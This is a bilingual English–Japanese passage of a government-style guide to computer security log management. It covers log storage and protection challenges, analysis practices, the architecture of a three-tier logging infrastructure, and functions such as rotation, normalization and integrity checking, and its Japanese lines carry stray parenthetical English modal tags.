•Inconsistent Timestamps. Each host that generates logs typically references its internal clock when setting a timestamp for each log entry. If a host’s clock is inaccurate, the timestamps in its logs will also be inaccurate. This can make analysis of logs more difficult, particularly when logs from multiple hosts are being analyzed. For example, timestamps might indicate that event A happened 45 seconds before event B, when event A actually happened two minutes after event B.
•タイムスタンプの不一致。ログを生成する各ホストは通常、各ログエントリのタイムスタンプを設定する際に内部時計を参照する。ホストの時計が不正確であれば、そのログのタイムスタンプも不正確になる。これにより、ログ分析が難しくなる。特に複数ホストのログを分析する場合に顕著である。たとえば、タイムスタンプ上ではイベントAがイベントBの45秒前に発生したように見えても、実際にはイベントAはイベントBの2分後に発生している場合がある。
•Inconsistent Log Formats.17 Many of the log source types use different formats for their logs, such as comma-separated or tab-separated text files,18 databases, syslog, Simple Network Management Protocol (SNMP), Extensible Markup Language (XML), and binary files.19 Some logs are designed for humans to read, while others are not; some logs use standard formats, while others use proprietary formats. Some logs are created not for local storage in a file, but for transmission to another system for processing; a common example of this is SNMP traps. For some output formats, particularly text files, there are many possibilities for the sequence of the values in each log entry and the delimiters between the values (e.g., comma-separated values, tab-delimited values, XML).
•ログ形式の不一致。17 多くのログソース種別は、ログに異なる形式を使用する。例として、カンマ区切りまたはタブ区切りのテキストファイル、18 データベース、syslog、簡易ネットワーク管理プロトコル（SNMP）、拡張可能なマークアップ言語（XML）、バイナリファイルがある。人が読めるように設計されたログもあれば、そうでないものもある。標準形式を使用するログもあれば、独自形式を使用するログもある。ログの中には、ファイルにローカル保存するのではなく、処理のために別のシステムへ送信する目的で作成されるものもある。SNMPトラップがその一般的な例である。特にテキストファイルなど一部の出力形式では、各ログエントリの値の並び順や値の間の区切り文字（カンマ区切り値、タブ区切り値、XMLなど）に多数の選択肢がある。
To facilitate analysis of logs, organizations often need to implement automated methods of converting logs with different content and formats to a single standard format with consistent data field representations. Inconsistent log formats and data field representations also present challenges to people reviewing logs, who need to understand the meaning of various data fields in each log to perform a thorough review.
ログ分析を容易にするため、組織は内容や形式の異なるログを、データフィールド表現が一貫した単一の標準形式に変換する自動化方式を実装する必要があることが多い。ログ形式とデータフィールド表現の不一致は、ログを確認する人々にも課題をもたらす。徹底的な確認を行うには、各ログのさまざまなデータフィールドの意味を理解する必要がある。
Because most hosts within an organization typically log some computer security-related information, often with multiple logs per host, the number of logs within an organization can be quite high. Many logs record large volumes of data on a daily basis, so the total daily volume of log data within an organization is often overwhelming. This impacts the resources needed to store the data for the appropriate length of time, as described in Section 2.3.2, and to perform reviews of the data, as described in Section 2.3.3. The distributed nature of logs, inconsistent log formats, and volume of logs all make the management of log generation and storage challenging.
組織内のほとんどのホストは通常、何らかのコンピュータセキュリティ関連情報を記録し、1台のホストが複数のログを持つことも多いため、組織内のログ数は非常に多くなる可能性がある（can）。多くのログは日々大量のデータを記録するため、組織内のログデータの1日あたりの総量はしばしば膨大である。これは、2.3.2節で説明する適切な期間にわたるデータ保存、および2.3.3節で説明するデータ確認に必要なリソースに影響を与える。ログの分散性、形式の不一致、ログ量のすべてが、ログ生成と保存の管理を困難にする。
2.3.2 Log Protection
2.3.2 ログの保護
Because logs contain records of system and network security, they need to be protected from breaches of their confidentiality and integrity. For example, logs might intentionally or inadvertently capture sensitive information such as users’ passwords and the content of e-mails. This raises security and privacy concerns involving both the individuals that review the logs and others that might be able to access the logs through authorized or unauthorized means. Logs that are secured improperly in storage or in transit might also be susceptible to intentional and unintentional alteration and destruction. This could cause a variety of impacts, including allowing malicious activities to go unnoticed and manipulating evidence to conceal the identity of a malicious party. For example, many rootkits are specifically designed to alter logs to remove any evidence of the rootkits’ installation or execution.
ログにはシステムおよびネットワークのセキュリティ記録が含まれるため、機密性と完全性の侵害から保護する必要がある。たとえば、ログにはユーザーのパスワードや電子メールの内容など、機密情報が意図せずまたは意図的に記録される場合がある（might）。このことは、ログを確認する人々と、認可された手段または不正な手段によってログにアクセスできる可能性のある（might）他者の双方に関するセキュリティおよびプライバシー上の懸念を生じさせる。保存中または転送中に適切に保護されていないログは、意図的または偶発的な改変・破壊の影響を受けやすい場合もある（might）。その結果、悪意ある活動が見逃されたり、悪意ある当事者の身元を隠すため証拠が操作されたりするなど、さまざまな影響が生じる可能性がある（could）。たとえば、多くのルートキットは、インストールまたは実行の証拠を削除するためにログを改変するよう特別に設計されている。
Organizations also need to protect the availability of their logs. Many logs have a maximum size, such as storing the 10,000 most recent events, or keeping 100 megabytes of log data. When the size limit is reached, the log might overwrite old data with new data or stop logging altogether, both of which would cause a loss of log data availability. To meet data retention requirements, organizations might need to keep copies of log files for a longer period of time than the original log sources can support, which necessitates establishing log archival processes. Because of the volume of logs, it might be appropriate in some cases to reduce the logs by filtering out log entries that do not need to be archived. The confidentiality and integrity of the archived logs also need to be protected.
組織はログの可用性も保護する必要がある。多くのログには、直近のイベント10,000件を保存する、またはログデータを100メガバイト保持するといった最大サイズがある。サイズ上限に達すると、ログは古いデータを新しいデータで上書きするか、ロギングを完全に停止する場合がある（might）。どちらの場合もログデータの可用性が失われる（would）。データ保持要件を満たすには、元のログソースが対応できる（can）期間より長くログファイルのコピーを保持する必要がある場合があり（might）、そのためログのアーカイブプロセスを確立する必要がある。ログ量が多いため、アーカイブする必要のないログエントリをフィルタリングして除外し、ログを削減することが適切な場合もある（might）。アーカイブされたログの機密性と完全性も保護する必要がある。
2.3.3 Log Analysis
2.3.3 ログ分析
Within most organizations, network and system administrators have traditionally been responsible for performing log analysis—studying log entries to identify events of interest. It has often been treated as a low-priority task by administrators and management because other duties of administrators, such as handling operational problems and resolving security vulnerabilities, necessitate rapid responses. Administrators who are responsible for performing log analysis often receive no training on doing it efficiently and effectively, particularly on prioritization. Also, administrators often do not receive tools that are effective at automating much of the analysis process, such as scripts and security software tools (e.g., host-based intrusion detection products, security information and event management software). Many of these tools are particularly helpful in finding patterns that humans cannot easily see, such as correlating entries from multiple logs that relate to the same event. Another problem is that many administrators consider log analysis to be boring and to provide little benefit for the amount of time required. Log analysis is often treated as reactive—something to be done after a problem has been identified through other means—rather than proactive, to identify ongoing activity and look for signs of impending problems. Traditionally, most logs have not been analyzed in a real-time or near-real-time manner. Without sound processes for analyzing logs, the value of the logs is significantly reduced.
ほとんどの組織では従来、ネットワーク管理者とシステム管理者がログ分析、すなわち関心のあるイベントを特定するためのログエントリの調査を担当してきた。管理者や経営層は、運用上の問題への対処やセキュリティ脆弱性の解決など、管理者の他の職務に迅速な対応が必要となるため、ログ分析を低優先度の作業として扱うことが多かった。ログ分析を担当する管理者は、効率的かつ効果的な実施方法、特に優先順位付けについて訓練を受けていないことが多い。また、スクリプトやセキュリティソフトウェアツール（ホストベースの侵入検知製品、セキュリティ情報・イベント管理ソフトウェアなど）といった、分析プロセスの多くを自動化する効果的なツールが管理者に提供されないことも多い。こうしたツールの多くは、人が容易に見つけられないパターン、たとえば同じイベントに関連する複数ログのエントリの相関を見つけるうえで特に役立つ。別の問題として、多くの管理者は、ログ分析を退屈で、必要な時間に見合うほどの利点がないと考えている。ログ分析は、継続中の活動を特定し差し迫った問題の兆候を探すための事前対応ではなく、他の方法で問題が特定された後に行う事後対応として扱われることが多い。従来、ほとんどのログはリアルタイムまたは準リアルタイムでは分析されていない。健全なログ分析プロセスがなければ、ログの価値は大幅に低下する。
2.4 Meeting the Challenges
2.4 課題への対処
Despite the many challenges an organization faces in log management, there are a few key practices an organization can follow to avoid and even solve many of these obstacles it confronts. The following four measures give a brief explanation of these solutions:
組織はログ管理において多くの課題に直面するが、いくつかの重要な実践に従うことで、多くの障害を回避し、さらには解決することができる（can）。以下の4つの対策は、これらの解決策を簡潔に説明する。
•Prioritize log management appropriately throughout the organization. An organization should define its requirements and goals for performing logging and monitoring logs to include applicable laws, regulations, and existing organizational policies. The organization can then prioritize its goals based on balancing the organization’s reduction of risk with the time and resources needed to perform log management functions.
•組織全体でログ管理の優先順位を適切に設定する。組織は、適用される法律、規制、既存の組織ポリシーを含め、ロギングおよびログ監視の要件と目標を定義すべきである。そのうえで、組織はリスク低減とログ管理機能の実施に必要な時間・リソースとの均衡に基づいて目標の優先順位を設定できる。
•Establish policies and procedures for log management. Policies and procedures are beneficial because they ensure a consistent approach throughout the organization as well as ensuring that laws and regulatory requirements are being met. Periodic audits are one way to confirm that logging standards and guidelines are being followed throughout the organization. Testing and validation can further ensure that the policies and procedures in the log management process are being performed properly.
•ログ管理のポリシーと手順を確立する。ポリシーと手順は、組織全体で一貫したアプローチを確保するとともに、法律および規制要件への準拠を確保するため有益である。定期監査は、組織全体でロギング標準とガイドラインが遵守されていることを確認する方法の一つである。試験および検証によって、ログ管理プロセスのポリシーと手順が適切に実施されていることをさらに確保できる。
•Create and maintain a secure log management infrastructure. It is very helpful for an organization to create components of a log management infrastructure and determine how these components interact. This aids in preserving the integrity of log data from accidental or intentional modification or deletion, and also in maintaining the confidentiality of log data. It is also critical to create an infrastructure robust enough to handle not only expected volumes of log data, but also peak volumes during extreme situations (e.g., widespread malware incident, penetration testing, vulnerability scans).
•安全なログ管理インフラストラクチャを作成し、維持する。組織にとって、ログ管理インフラストラクチャの構成要素を作成し、それらの相互作用を定めることは非常に有用である。これにより、ログデータの完全性を偶発的または意図的な変更・削除から保護し、ログデータの機密性を維持できる。また、予想されるログデータ量だけでなく、極端な状況（広範囲のマルウェアインシデント、侵入テスト、脆弱性スキャンなど）でのピーク量にも対応できる、堅牢なインフラストラクチャを作成することも重要である。
•Provide adequate support for all staff with log management responsibilities. While defining the log management scheme, organizations should ensure that they provide the necessary training to relevant staff regarding their log management responsibilities as well as skill instruction for the needed resources to support log management. Support also includes providing log management tools and tool documentation, providing technical guidance on log management activities, and disseminating information to log management staff.
•ログ管理の責任を持つすべての職員に十分な支援を提供する。ログ管理方式を定義する際、組織は関連職員にログ管理責任に関する必要な研修と、ログ管理を支えるために必要なリソースを使う技能の指導を提供するよう確保すべきである。支援には、ログ管理ツールとその文書の提供、ログ管理活動に関する技術ガイダンスの提供、ログ管理担当者への情報周知も含まれる。
2.5 Summary
2.5 まとめ
Many logs within an organization contain records related to computer security events occurring within systems and networks. For example, most organizations use several types of security software, such as antivirus software, firewalls, and intrusion prevention systems, to detect malicious activity and protect systems and data from damage. Security software is usually the primary source of computer security logs. OSs for servers, workstations, and networking equipment usually log a variety of information related to security, such as system events and audit records. Another common type of log generator is applications, which may send information to OS logs or application-specific logs.
組織内の多くのログには、システムやネットワーク内で発生したコンピュータセキュリティイベントの記録が含まれる。たとえば、ほとんどの組織は、悪意ある活動を検知し、システムとデータを損害から保護するため、ウイルス対策ソフトウェア、ファイアウォール、侵入防止システムなど複数種類のセキュリティソフトウェアを使用する。セキュリティソフトウェアは通常、コンピュータセキュリティログの主要なソースである。サーバー、ワークステーション、ネットワーク機器のOSは通常、システムイベントや監査記録など、セキュリティ関連のさまざまな情報を記録する。ログ生成のもう一つの一般的な種類はアプリケーションであり、OSログまたはアプリケーション固有のログに情報を送信することがある（may）。
The number, volume, and variety of computer security logs has increased greatly, which has created the need for computer security log management—the process for generating, transmitting, storing, analyzing, and disposing of computer security log data. Log management helps to ensure that computer security records are stored in sufficient detail for an appropriate period of time. Routine log analysis is beneficial for identifying security incidents, policy violations, fraudulent activity, and operational problems. Logs are also useful for establishing baselines, performing auditing and forensic analysis, supporting internal investigations, and identifying operational trends and long-term problems. Organizations may also store and analyze certain logs for compliance with FISMA, HIPAA, GLBA, SOX, and other key regulations, guidelines, and standards.
コンピュータセキュリティログの数、量、多様性は大幅に増加し、その結果、コンピュータセキュリティログデータを生成、転送、保存、分析、廃棄するプロセスであるコンピュータセキュリティログ管理が必要になった。ログ管理は、コンピュータセキュリティ記録を適切な期間、十分な詳細度で保存できるよう支援する。定期的なログ分析は、セキュリティインシデント、ポリシー違反、不正行為、運用上の問題を特定するうえで有益である。ログは、ベースラインの確立、監査およびフォレンジック分析の実施、内部調査の支援、運用傾向や長期的な問題の特定にも有用である。組織は、FISMA、HIPAA、GLBA、SOXおよびその他の主要な規制、ガイドライン、標準への準拠のため、特定のログを保存・分析する場合もある（may）。
The fundamental problem with log management is balancing a limited amount of log management resources with a continuous supply of log data. Log generation and storage is complicated mainly by a high number of log sources, inconsistent log formats among sources, and a large volume of log data on a daily basis. Log management also involves protecting logs from breaches of their confidentiality and integrity, as well as supporting their availability. Another problem with log management is having network and system administrators perform regular, efficient, and effective analysis of log data. Key practices recommended to meet the main challenges in log management are as follows:
ログ管理の根本的な問題は、限られたログ管理リソースと継続的に供給されるログデータとの均衡を取ることである。ログの生成と保存は主に、ログソースの数が多いこと、ソース間でログ形式が一致しないこと、日々のログデータ量が多いことによって複雑になる。ログ管理には、ログの機密性と完全性の侵害からの保護、および可用性の支援も含まれる。もう一つの課題は、ネットワーク管理者とシステム管理者に、定期的かつ効率的で効果的なログデータ分析を実施させることである。ログ管理における主な課題に対処するために推奨される重要な実践は次のとおりである。
•Prioritize log management appropriately throughout the organization
•組織全体でログ管理の優先順位を適切に設定する
•Establish policies and procedures for log management
•ログ管理のポリシーと手順を確立する
•Create and maintain a secure log management infrastructure
•安全なログ管理インフラストラクチャを作成し、維持する
•Provide proper training for all staff with log management responsibilities.
•ログ管理の責任を持つすべての職員に適切な研修を提供する。
This page has been left blank intentionally.
このページは意図的に空白としている。
3. Log Management Infrastructure
3. ログ管理インフラストラクチャ
A log management infrastructure consists of the hardware, software, networks, and media used to generate, transmit, store, analyze, and dispose of log data.20 Most organizations have one or more log management infrastructures.21 This section describes the typical architecture of a log management infrastructure and how its components interact with each other. It then describes the basic functions performed within a log management infrastructure. Next, it examines the two major categories of log management software: syslog-based centralized logging software and security information and event management software. The section also describes additional types of software that may be useful within a log management infrastructure.
ログ管理インフラストラクチャは、ログデータの生成、転送、保存、分析、廃棄に使用するハードウェア、ソフトウェア、ネットワーク、媒体から構成される。20 ほとんどの組織は、1つ以上のログ管理インフラストラクチャを持つ。21 本節では、ログ管理インフラストラクチャの一般的なアーキテクチャとその構成要素の相互作用について説明する。次に、ログ管理インフラストラクチャ内で実行される基本機能について説明する。その後、ログ管理ソフトウェアの主要な2分類、すなわちsyslogベースの集中ログ管理ソフトウェアとセキュリティ情報・イベント管理ソフトウェアを検討する。さらに、本節ではログ管理インフラストラクチャ内で有用となる場合がある（may）その他の種類のソフトウェアについても説明する。
3.1 Architecture
3.1 アーキテクチャ
A log management infrastructure typically comprises the following three tiers:
ログ管理インフラストラクチャは通常、次の3層で構成される。
•Log Generation. The first tier contains the hosts that generate the log data. Some hosts run logging client applications or services that make their log data available through networks to log servers in the second tier. Other hosts make their logs available through other means, such as allowing the servers to authenticate to them and retrieve copies of the log files.
•ログ生成。第1層には、ログデータを生成するホストが含まれる。一部のホストでは、ロギングクライアントアプリケーションまたはサービスが動作し、ネットワークを介して第2層のログサーバーがログデータを利用できるようにする。他のホストは、サーバーによる認証を許可してログファイルのコピーを取得させるなど、別の方法でログを利用可能にする。
•Log Analysis and Storage. The second tier is composed of one or more log servers that receive log data or copies of log data from the hosts in the first tier. The data is transferred to the servers either in a real-time or near-real-time manner, or in occasional batches based on a schedule or the amount of log data waiting to be transferred. Servers that receive log data from multiple log generators are sometimes called collectors or aggregators. Log data may be stored on the log servers themselves or on separate database servers.
•ログ分析および保存。第2層は、各ホストからログデータまたはそのコピーを受信する1台以上のログサーバーで構成される。データは、リアルタイムまたは準リアルタイムで転送されるか、スケジュールまたは転送待ちログデータ量に応じた断続的なバッチで転送される。複数のログ生成元からログデータを受信するサーバーは、コレクターまたはアグリゲーターと呼ばれることもある。ログデータはログサーバー自体、または別個のデータベースサーバーに保存される場合がある。
•Log Monitoring. The third tier contains consoles that may be used to monitor and review log data and the results of automated analysis. Log monitoring consoles can also be used to generate reports. In some log management infrastructures, consoles can also be used to provide management for the log servers and clients. Also, console user privileges sometimes can be limited to only the necessary functions and data sources for each user.
•ログ監視。第3層には、ログデータおよび自動分析の結果を監視・確認するために使用できるコンソールが含まれる。ログ監視コンソールはレポートの生成にも使用できる。一部のログ管理インフラストラクチャでは、ログサーバーおよびクライアントを管理するためにもコンソールを使用できる。また、コンソールユーザーの権限を、各ユーザーに必要な機能およびデータソースだけに制限できる場合もある。
The second tier—log analysis and storage—can vary greatly in complexity and structure. The simplest arrangement is a single log server that handles all log analysis and storage functions. Examples of more complex second tier arrangements are as follows:
第2層であるログ分析および保存の複雑さと構造は大きく異なる場合がある（can）。最も単純な構成は、すべてのログ分析および保存機能を処理する単一のログサーバーである。より複雑な第2層構成の例を以下に示す。
•Multiple log servers that each perform a specialized function, such as one server performing log collection, analysis, and short-term log storage, and another server performing long-term storage.
•それぞれが専門機能を実行する複数のログサーバー。たとえば、1台はログの収集、分析、短期保存を行い、別のサーバーは長期保存を行う。
•Multiple log servers that each perform analysis and/or storage for certain log generators. This can also provide some redundancy. A log generator can switch to a backup log server if its primary log server becomes unavailable. Also, log servers can be configured to share log data with each other, which also supports redundancy.
•それぞれが特定のログ生成元について分析および／または保存を行う複数のログサーバー。これにより、ある程度の冗長性も実現できる。プライマリログサーバーが利用できなくなると、ログ生成元はバックアップログサーバーに切り替えることができる。また、ログサーバー同士でログデータを共有するよう構成できる。これも冗長性を支援する。
•Two levels of log servers, with the first level of distributed log servers receiving logs from the log generators and forwarding some or all of the log data they receive to a second level of more centralized log servers. (Additional tiers can be added to this architecture to make it even more flexible, scalable, and redundant.) In some cases, the first level servers act as log caching servers—simply receiving logs from log generators and forwarding them to other log servers. This can be done to protect the second level of log servers from direct attacks, and it is also useful when there are network reliability concerns between the log generators and the second level of log servers, such as those servers being accessible only over the Internet. In that case, having log caching servers on a reliable local network allows the log generators to transfer their logs to those servers, which can then transfer the logs to the second level of log servers when network connectivity permits.
•2階層のログサーバー。第1階層の分散ログサーバーがログ生成元からログを受信し、受信したログデータの一部または全部を、より集中化された第2階層のログサーバーに転送する。（このアーキテクチャに階層を追加し、柔軟性、拡張性、冗長性をさらに高めることができる。）場合によっては、第1階層のサーバーはログキャッシュサーバーとして動作し、ログ生成元からログを受信して他のログサーバーへ転送するだけである。これは、第2階層のログサーバーを直接攻撃から保護するために実施できる。また、ログ生成元と第2階層のログサーバー間のネットワーク信頼性に懸念がある場合、たとえば第2階層のサーバーがインターネット経由でしかアクセスできない場合にも有用である。この場合、信頼性の高いローカルネットワーク上にログキャッシュサーバーを設置すれば、ログ生成元からそのサーバーへログを転送でき、ネットワーク接続が可能になった時点で第2階層のログサーバーへ転送できる。
Communications between log management infrastructure components typically occur over an organization’s regular networks because the hosts generating log data may be located throughout the organization’s networks. However, a physically or logically separate logging network can be used, particularly for getting logs from key devices (e.g., firewalls and network intrusion detection systems that often transfer large amounts of log data) and for transferring log data between log servers. During a widespread malware incident or other network-based attack, regular networks might be unstable or unavailable. Another motivation for using a separate logging network is protecting log data on the organization’s regular networks from eavesdropping. If a separate logging network is not used, logging communications on the regular network could be protected using additional security controls, such as data encryption. Another benefit of having a separate logging network is protecting those components that are only used for log management from attacks.
ログ管理インフラストラクチャ構成要素間の通信は通常、組織の通常のネットワークを経由する。ログデータを生成するホストは組織内の各所のネットワークに配置されている場合がある（may）ためである。ただし、特に主要な機器（大量のログデータを転送することが多いファイアウォールやネットワーク侵入検知システムなど）からログを取得するときや、ログサーバー間でログデータを転送するときには、物理的または論理的に分離されたロギングネットワークを使用できる（can）。広範囲のマルウェアインシデントやその他のネットワークベースの攻撃が発生すると、通常のネットワークが不安定または利用不能になる可能性がある（might）。分離されたロギングネットワークを使用するもう一つの理由は、組織の通常ネットワーク上のログデータを盗聴から保護することである。分離ネットワークを使用しない場合、データ暗号化などの追加セキュリティ管理策を用いて通常ネットワーク上のロギング通信を保護できる（could）。分離されたロギングネットワークのもう一つの利点は、ログ管理専用の構成要素を攻撃から保護できることである。
For a log management infrastructure, there might be some log-generating hosts that cannot automatically participate in the infrastructure, such as computers that are not network-connected, and legacy systems and appliance-based devices that cannot be configured to transfer their logs to the log servers. If their log data needs to be incorporated into the log management infrastructure, organizations can adopt out-of-band solutions such as manually transferring logs from a host to write-once media (e.g., CD-ROMs), and then copying the data from the media to a log server.22 A log management infrastructure also needs to accommodate hosts with intermittent or low-bandwidth connectivity, such as mobile hosts and hosts connecting through dial-up modems. These hosts may be severely limited as to how they can participate in the log management infrastructure, but this does not alter the importance of the logs that they contain.
ログ管理インフラストラクチャには、インフラストラクチャに自動参加できないログ生成ホストが含まれる場合がある（might）。たとえば、ネットワークに接続されていないコンピュータや、ログをログサーバーに転送するよう構成できないレガシーシステムおよびアプライアンス型機器が該当する。ログデータをインフラストラクチャに取り込む必要がある場合、組織はログをホストからライトワンス媒体（CD-ROMなど）へ手動で転送し、その後、媒体からログサーバーへデータをコピーするなどの帯域外ソリューションを採用できる（can）。22 ログ管理インフラストラクチャは、モバイルホストやダイヤルアップモデム経由で接続するホストなど、接続が断続的または低帯域幅のホストにも対応する必要がある。こうしたホストがログ管理インフラストラクチャに参加できる（can）方法は大幅に制限される場合がある（may）が、それによってホスト内のログの重要性が変わるわけではない。
An organization might have a single log management infrastructure for the entire enterprise, but it is more common to have multiple separate infrastructures that do not necessarily interoperate. Having a single log management infrastructure can provide a single point for reviewing all of the organization’s pertinent log data, but for larger organizations the size of such an infrastructure and the volume of data it would have to process and store typically make it infeasible. Larger organizations usually have multiple log management infrastructures, sometimes dozens or hundreds. The scope of each infrastructure can be dictated by many factors, including the organization’s internal structure, system types (e.g., a separate infrastructure for enterprise security systems), log types (e.g., a separate infrastructure for application audit logs), and facility locations.
組織は企業全体に単一のログ管理インフラストラクチャを持つ場合がある（might）が、相互運用されるとは限らない複数の独立したインフラストラクチャを持つ方が一般的である。単一のログ管理インフラストラクチャがあれば、組織に関係するすべてのログデータを一か所で確認できる（can）。しかし大規模組織では、そのようなインフラストラクチャの規模と処理・保存する必要がある（would）データ量から、通常は実現困難である。大規模組織は通常、複数のログ管理インフラストラクチャを持ち、ときには数十または数百に及ぶ。各インフラストラクチャの範囲は、組織の内部構造、システムの種類（企業セキュリティシステム用に分けるなど）、ログの種類（アプリケーション監査ログ用に分けるなど）、施設の所在地など、多くの要因によって決まる場合がある（can）。
3.2 Functions
3.2 機能
Log management infrastructures typically perform several functions that assist in the storage, analysis, and disposal of log data. These functions are normally performed in such a way that they do not alter the original logs.23 The following items describe common log management infrastructure functions:
ログ管理インフラストラクチャは通常、ログデータの保存、分析、廃棄を支援する複数の機能を実行する。これらの機能は通常、元のログを変更しない方法で実行される。23 以下に、ログ管理インフラストラクチャの一般的な機能を示す。
•General
•一般
•Log parsing is extracting data from a log so that the parsed values can be used as input for another logging process. A simple example of parsing is reading a text-based log file that contains 10 comma-separated values per line and extracting the 10 values from each line. Parsing is performed as part of many other logging functions, such as log conversion and log viewing.
•ログ解析とは、ログからデータを抽出し、解析された値を別のロギングプロセスの入力として使用できる（can）ようにすることである。簡単な例として、1行にカンマ区切り値が10個含まれるテキスト形式ログファイルを読み込み、各行から10個の値を抽出する処理がある。ログ変換やログ表示など、他の多くのロギング機能の一環として解析が実行される。
•Event filtering is the suppression of log entries from analysis, reporting, or long-term storage because their characteristics indicate that they are unlikely to contain information of interest. For example, duplicate entries and standard informational entries might be filtered because they do not provide useful information to log analysts. Typically, filtering does not affect the generation or short-term storage of events because it does not alter the original log files.
•イベントフィルタリングとは、関心のある情報を含む可能性が低いことを特性から判断し、分析、報告、長期保存の対象からログエントリを除外することである。たとえば、重複エントリや標準的な情報エントリはログ分析者に有用な情報を提供しないため、フィルタリングされる場合がある（might）。通常、フィルタリングは元のログファイルを変更しないため、イベントの生成や短期保存には影響しない。
•In event aggregation, similar entries are consolidated into a single entry containing a count of the number of occurrences of the event. For example, a thousand entries that each record part of a scan could be aggregated into a single entry that indicates how many hosts were scanned. Aggregation is often performed as logs are originally generated (the generator counts similar related events and periodically writes a log entry containing the count), and it can also be performed as part of log reduction or event correlation processes, which are described below.
•イベント集約では、類似するエントリを、イベント発生回数を含む単一エントリにまとめる。たとえば、スキャンの一部をそれぞれ記録する1,000件のエントリを、スキャン対象ホスト数を示す単一エントリに集約できる（could）。集約はログの初回生成時に行われることが多い（生成元が関連する類似イベントを数え、定期的にその件数を含むログエントリを書き込む）。ログ削減やイベント相関プロセスの一部として実行されることもある（can）。これらのプロセスについては後述する。
•Storage
•保存
•Log rotation is closing a log file and opening a new log file when the first file is considered to be complete. Log rotation is typically performed according to a schedule (e.g., hourly, daily, weekly) or when a log file reaches a certain size. The primary benefits of log rotation are preserving log entries and keeping the size of log files manageable. When a log file is rotated, the preserved log file can be compressed to save space. Also, during log rotation, scripts are often run that act on the archived log. For example, a script might analyze the old log to identify malicious activity, or might perform filtering that causes only log entries meeting certain characteristics to be preserved. Many log generators offer log rotation capabilities; many log files can also be rotated through simple scripts or third-party utilities, which in some cases offer features not provided by the log generators.
•ログローテーションとは、ログファイルが完了したと判断されたときにそのファイルを閉じ、新しいログファイルを開くことである。通常、ログローテーションはスケジュール（毎時、毎日、毎週など）に従って、またはログファイルが一定のサイズに達したときに実行される。主な利点は、ログエントリを保持し、ログファイルのサイズを管理しやすくすることである。ローテーション時に、保持したログファイルを圧縮して容量を節約できる（can）。ログローテーション中には、アーカイブ済みログに対するスクリプトが実行されることも多い。たとえば、スクリプトが古いログを分析して悪意ある活動を特定したり、特定の特性を満たすログエントリのみを保持するようフィルタリングを実行したりする場合がある（might）（might）。多くのログ生成元はログローテーション機能を提供する。多くのログファイルは単純なスクリプトやサードパーティ製ユーティリティでもローテーションできる（can）。その一部はログ生成元が提供しない機能を備える。
•Log archival is retaining logs for an extended period of time, typically on removable media, a storage area network (SAN), or a specialized log archival appliance or server. Logs often need to be preserved to meet legal or regulatory requirements. Section 4.2 provides additional information on log archival. There are two types of log archival: retention and preservation. Log retention is archiving logs on a regular basis as part of standard operational activities. Log preservation is keeping logs that normally would be discarded, because they contain records of activity of particular interest. Log preservation is typically performed in support of incident handling or investigations.
•ログアーカイブとは、通常、リムーバブル媒体、ストレージエリアネットワーク（SAN）、専用ログアーカイブ機器またはサーバーにログを長期間保持することである。法的または規制上の要件を満たすため、ログの保存が必要になることが多い。ログアーカイブに関する詳細は4.2節を参照。ログアーカイブには、保持と保全の2種類がある。ログ保持は標準的な運用活動の一環として定期的にログをアーカイブすることを指す。ログ保全は、特に関心のある活動の記録が含まれるため、通常なら破棄される（would）ログを保持することである。ログ保全は通常、インシデント対応または調査を支援するために実施される。
•Log compression is storing a log file in a way that reduces the amount of storage space needed for the file without altering the meaning of its contents. Log compression is often performed when logs are rotated or archived.
•ログ圧縮とは、内容の意味を変えずに、必要な保存容量を減らす方法でログファイルを保存することである。ログ圧縮は、ログのローテーション時またはアーカイブ時に行われることが多い。
•Log reduction is removing unneeded entries from a log to create a new log that is smaller. A similar process is event reduction, which removes unneeded data fields from all log entries. Log and event reduction are often performed in conjunction with log archival so that only the log entries and data fields of interest are placed into long-term storage.
•ログ削減とは、不要なエントリをログから除去して、より小さい新しいログを作成することである。類似する処理にイベント削減があり、すべてのログエントリから不要なデータフィールドを除去する。ログ削減とイベント削減は、関心のあるログエントリとデータフィールドだけを長期保存するよう、ログアーカイブと併せて実行されることが多い。
•Log conversion is parsing a log in one format and storing its entries in a second format. For example, conversion could take data from a log stored in a database and save it in an XML format in a text file. Many log generators can convert their own logs to another format; third-party conversion utilities are also available. Log conversion sometimes includes actions such as filtering, aggregation, and normalization.
•ログ変換とは、ある形式のログを解析し、エントリを別の形式で保存することである。たとえば、データベースに保存されたログのデータを変換し、テキストファイル内のXML形式で保存できる場合がある（could）。多くのログ生成元は独自のログを別形式に変換できる（can）。サードパーティ製の変換ユーティリティも利用できる。ログ変換には、フィルタリング、集約、正規化などの処理が含まれることがある。
•In log normalization, each log data field is converted to a particular data representation and categorized consistently. One of the most common uses of normalization is storing dates and times in a single format. For example, one log generator might store the event time in a twelve-hour format (2:34:56 P.M. EDT) categorized as Timestamp, while another log generator might store it in twenty-four (14:34) format categorized as Event Time, with the time zone stored in different notation (-0400) in a different field categorized as Time Zone.24 Normalizing the data makes analysis and reporting much easier when multiple log formats are in use. However, normalization can be very resource-intensive, especially for complex log entries (e.g., typical intrusion detection logs).
•ログ正規化では、各ログデータフィールドを特定のデータ表現に変換し、一貫した方法で分類する。正規化の最も一般的な用途の一つは、日付と時刻を単一形式で保存することである。たとえば、あるログ生成元はイベント時刻を12時間形式（2:34:56 P.M. EDT）で保存し、Timestampとして分類する一方、別の生成元は24時間形式（14:34）で保存し、Event Timeとして分類して、タイムゾーンを別フィールドに異なる表記（-0400）で保存し、Time Zoneとして分類する場合がある（might）（might）。24複数のログ形式を使用している場合、データを正規化すると分析と報告がはるかに容易になる。複雑なログエントリ（一般的な侵入検知ログなど）では特に、正規化に非常に多くのリソースを要する場合がある（can）。
•Log file integrity checking involves calculating a message digest for each file and storing the message digest securely to ensure that changes to archived logs are detected. A message digest is a digital signature that uniquely identifies data and has the property that changing a single bit in the data causes a completely different message digest to be generated. The most commonly used message digest algorithms are MD5 and Secure Hash Algorithm 1 (SHA-1).25 If the log file is modified and its message digest is recalculated, it will not match the original message digest, indicating that the file has been altered. The original message digests should be protected from alteration through FIPS-approved encryption algorithms, storage on read-only media, or other suitable means.
